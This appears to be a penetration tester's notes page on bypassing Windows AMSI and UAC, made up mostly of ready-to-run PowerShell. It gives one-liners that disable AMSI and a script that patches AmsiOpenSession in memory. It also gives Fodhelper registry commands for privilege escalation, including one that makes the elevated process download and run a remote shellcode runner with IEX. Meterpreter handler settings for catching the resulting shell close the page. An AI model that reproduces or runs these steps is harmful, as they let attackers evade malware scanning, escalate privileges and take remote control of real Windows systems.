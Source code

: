 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Bypass_AMSI
---
```



<span style="font-size: 35px; color:red"><b>Bypassing AMSI</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Powershell OneLiner</b></span>
Simple script to deactivate AMSI corrupting its context structure (replacing the first 4 Bytes "AMSI" with 0):
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```
OR
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

You can test - from Powershell - that it works typing <span style="color:red">'amsiUtils'</span>, <span style="color:red">'amsicontext'</span> or <span style="color:red">'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'</span> or <span style="color:red">'invoke-mimikatz'</span> in powershell and see if any of these gets flagged.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Binary Patching</b></span>
Directly changing the first instruction <span style="color:red">test RDX,RDX</span> to <span style="color:red">XOR RAX,RAX</span>, forcing the execution flow to the error branch, which will disable AMSI.

Attack:
1) Obtain the memory address of AMSIOpenSession
2) Modify the memory permission where AMSIOpenSession is located
3) Modify the 3 bytes at that location

```powershell
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)

$buf = [Byte[]] (0x48, 0x31, 0xC0) 
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)

$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Fodhelper UAC Bypass</b></span>
Fodhelper.exe is an application that helps managing optional features like region-specific keyboard settings.
It's vulnerable since it deals directly with the current user's registry.

EXPLOIT in 3 steps:
```powershell
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value powershell.exe –Force
```

```powershell
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
```

```powershell
C:\Windows\System32\fodhelper.exe
```

MSFconsole has an exploit for this to increase a revshell (that you already spawned) to HIGH integrity :  `exploit/windows/local/bypassuac_fodhelper`
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>FodHelper UAC Bypass + AMSI Bypass</b></span>
To bypass AMSI using the exploit against FodHelper, run these commands (the <span style="color:red">run.txt</span> contains the Powershell Shellcode Runner with AMSI bypass at the beginning of it - or the longer one, up to you):
```powershell
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "powershell.exe (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.txt') | IEX" -Force
```

```powershell
New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
```

```powershell
C:\Windows\System32\fodhelper.exe
```

And get the shell using msfconsole. Configure the multi/handler (meterpreter) like so:
```shell
set EnableStageEncoding true
set StageEncoder x64/zutto_dekiru
```

